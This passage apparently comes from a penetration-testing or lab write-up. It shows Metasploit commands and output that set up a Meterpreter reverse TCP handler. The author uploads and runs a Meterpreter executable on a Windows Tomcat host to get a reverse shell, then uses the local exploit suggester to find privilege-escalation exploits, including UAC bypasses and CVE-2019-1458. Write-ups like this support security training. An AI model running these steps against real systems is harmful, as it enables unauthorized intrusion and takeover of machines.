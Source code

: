 Now I have a Windows executable ready to go. Next, I used `exploit/multi/handler` to handle the exploit launched outside of the framework. I configured the handler exactly same as the configuration I used to create the Windows binary Meterpreter. Then I ran `exploit`.

```
$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.200.2:5555
```

After that, I went back to other Meterpreter. I uploaded the Windows binary, spawned a shell and ran the binary.

```
meterpreter > upload meterpreter.exe
[*] uploading  : meterpreter.exe -> meterpreter.exe
[*] Uploaded -1.00 B of 7.00 KiB (-0.01%): meterpreter.exe -> meterpreter.exe
[*] uploaded   : meterpreter.exe -> meterpreter.exe
meterpreter > shell
Process 4 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 8.5>meterpreter.exe
meterpreter.exe
```

Now I have Windows Meterpreter running.

```
[*] Sending stage (200262 bytes) to 192.168.240.80
[*] Meterpreter session 1 opened (10.0.200.2:5555 -> 192.168.240.80:57639) at 2020-11-22 01:47:30 +0800

meterpreter >
```

Right now, I'm `NT AUTHORITY\LOCAL SERVICE` and I need to get `NT AUTHORITY\SYSTEM`. To achieve that, here's come privilege escalation.  

I do some digging and found module `post/multi/recon/local_exploit_suggester`. This module suggested local meterpreter exploits that can be used. I ran `background` and `use post/multi/recon/local_exploit_suggester`. I configured it with session 1 and ran the module.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 192.168.240.80 - Collecting local exploits for x64/windows...
[*] 192.168.240.80 - 20 exploit checks are being tried...
[+] 192.168.240.80 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 192.168.240.80 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 192.168.240.80 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
```